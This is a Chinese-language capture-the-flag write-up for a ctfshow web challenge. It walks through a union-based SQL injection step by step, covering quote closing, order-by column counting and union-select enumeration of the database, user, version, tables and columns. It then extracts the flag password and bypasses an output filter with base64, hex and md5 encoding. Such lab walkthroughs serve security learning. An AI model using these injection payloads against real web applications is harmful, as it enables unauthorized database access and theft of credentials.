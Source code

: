 ![image-20250316164438669](./assets/image-20250316164438669.png)



存在返回值过滤

及用户名中不能存在flag



闭合单引号并注释后面语句

```
' --+
```

![image-20250316164645230](./assets/image-20250316164645230.png)



利用order by测试回显数

```
1' order by 4--+
```

![image-20250316164722057](./assets/image-20250316164722057.png)

当order by 4时异常



```
1' order by 2--+
```

![image-20250316164746574](./assets/image-20250316164746574.png)

当order by 2时正常显示

即有两个回显数



利用联合查询判断回显位

```
-1' union select 1,2 --+
```

![image-20250316164840783](./assets/image-20250316164840783.png)

两个回显位





获取数据库名和用户信息

```
-1' union select database(),user() --+
```

![image-20250316164912376](./assets/image-20250316164912376.png)

数据库：ctfshow_web

用户：root



获取版本信息

```
-1' union select 1,version() --+
```

![image-20250316164934608](./assets/image-20250316164934608.png)

版本信息：10.3.18-MariaDB



查询表名

```
-1' union select 1,table_name from information_schema.tables where table_schema='ctfshow_web' --+
```

![image-20250316165110906](./assets/image-20250316165110906.png)

ctfshow_user

ctfshow_user2



获取字段名

```
-1 'union select 1,column_name from information_schema.columns where table_name='ctfshow_user' --+
```

![image-20250316165210733](./assets/image-20250316165210733.png)



```
-1 'union select 1,column_name from information_schema.columns where table_name='ctfshow_user2' --+
```

![image-20250316165221727](./assets/image-20250316165221727.png)

都是username和password



获取字段信息，因为存在输出过滤，因此我们只查询密码

```
-1'union select 1,password from ctfshow_user where username='flag' --+
```

![image-20250316165324787](./assets/image-20250316165324787.png)



```
-1'union select 1,password from ctfshow_user2 where username='flag' --+
```

![image-20250316165336301](./assets/image-20250316165336301.png)

得到flag



或将用户名编码

base64

```
-1'union select to_base64(username),password from ctfshow_user2--+
```

![image-20250316165455584](./assets/image-20250316165455584.png)



hex

```
-1'union select hex(username),password from ctfshow_user2--+
```

![image-20250316165513870](./assets/image-20250316165513870.png)



md5

```
-1'union select md5(username),password from ctfshow_user2--+
```

![image-20250316165527498](./assets/image-20250316165527498.png)